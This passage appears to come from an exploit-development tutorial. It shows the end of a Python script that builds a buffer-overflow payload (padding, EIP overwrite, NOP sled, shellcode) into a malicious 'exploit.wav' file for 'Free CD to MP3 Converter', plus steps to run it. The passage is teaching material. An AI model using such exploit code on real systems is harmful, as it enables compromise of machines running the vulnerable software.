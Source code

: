 ```python
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

2. We can now run our code with `F5` in `IDLE` to generate the `exploit.wav` file. Once we do, we can run the `Free CD to MP3 Converter` program (we don't need to run it in `x32dbg`) and load our file to it:

```powershell
 Directory of C:\Users\Administrator\Desktop

04/28/2021  07:07 AM    <DIR>          .
